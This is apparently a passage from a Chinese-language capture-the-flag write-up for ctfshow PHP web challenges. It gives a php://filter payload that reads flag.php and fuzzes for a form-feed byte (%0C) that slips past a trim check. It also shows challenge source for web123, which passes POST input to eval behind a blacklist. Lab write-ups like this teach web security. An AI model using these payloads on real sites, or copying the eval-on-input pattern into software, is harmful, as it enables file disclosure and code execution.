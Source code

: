```php
}else{
    echo "hacker!";
} 师傅们居然tql都是非预期 哼！
```

payload:

> ?file=php://filter/resource=flag.php



## web 115



**trim — 去除字符串首尾处的空白字符（或者其他字符）**

```
说明 ¶
trim ( string $str , string $character_mask = " \t\n\r\0\x0B" ) : string
此函数返回字符串 str 去除首尾空白字符后的结果。如果不指定第二个参数，trim() 将去除这些字符：

" " (ASCII 32 (0x20))，普通空格符。
"\t" (ASCII 9 (0x09))，制表符。
"\n" (ASCII 10 (0x0A))，换行符。
"\r" (ASCII 13 (0x0D))，回车符。
"\0" (ASCII 0 (0x00))，空字节符。
"\x0B" (ASCII 11 (0x0B))，垂直制表符。
```

fuzz下

```php
<?php
for ($i=0; $i <128 ; $i++) {
    $x=chr($i).'1';
    if(is_numeric($x) and trim($x)!=='1'){
        echo urlencode(chr($i))."\n";
    }
}
?>
//%0C (换页符)
```

payload:

> ?num=%0C36



## web123

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```